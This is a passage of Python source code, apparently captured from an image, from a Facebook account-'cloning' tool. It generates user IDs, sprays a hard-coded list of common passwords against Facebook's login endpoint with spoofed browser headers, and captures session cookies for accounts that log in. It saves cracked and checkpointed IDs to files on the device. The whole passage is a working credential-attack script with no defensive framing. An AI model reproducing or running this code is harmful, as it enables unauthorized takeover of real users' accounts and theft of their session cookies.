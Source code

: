         print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = ['khankhan','malikmalik','malik123','malik12','malik786']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

def freeq(uid,pwx,tl):
    global loop
    global ok
    global cp
    global ugen
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "next":"https://web.facebook.com/login/device-based/regular/login/?refsrc",
            "flow":"login_no_pain",
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'www.facebook.com',
            'method': 'GET',
            'path':'https://www.facebook.com/?_rdc=1&_rdr',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding':'gzip, deflate, br','accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Google Chrome";v="101", "Not)A;Brand";v="99", "Chromium";v="105"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Windows"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'referer':'https://www.facebook.com/',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://www.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                uid = coki[151:166]
                print(f'\r\33[1;97m[\033[1;96mSUCCESSFUL\033[1;97m]\033[1;92m '+uid+' | '+ps+ '  ') 
                cek_apk(session,coki)